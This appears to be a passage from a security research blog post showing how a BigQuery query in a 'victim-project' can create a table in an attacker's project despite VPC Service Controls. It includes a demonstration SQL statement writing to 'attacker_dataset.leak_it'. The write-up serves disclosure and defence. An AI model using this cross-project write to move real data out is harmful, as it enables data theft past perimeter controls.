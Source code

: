 <figure markdown="span">
 ![GCP resources view showing victim-project as a child of the organisation tempered.works](./assets/vpcsc_victim_bq_project.webp)
 <figcaption>victim-project is a child of org tempered.works by default</figcaption>
</figure>

I need to enable the BigQuery API to enter the project in the BigQuery console. Can I create a table in the attacker's dataset? I'll do the simplest thing I can:

```sql
CREATE OR REPLACE TABLE `attacker-project-428619.attacker_dataset.leak_it`
AS
SELECT 1 AS dummy
```

<figure markdown="span">
 ![BigQuery showing the SQL query and a successful status, with an exclamation next to the success indicator](./assets/vpcsc_victim_bq_leak.webp)
 <figcaption>A table leaks from victim-project to attacker-project without any permissions victim-side</figcaption>
</figure>
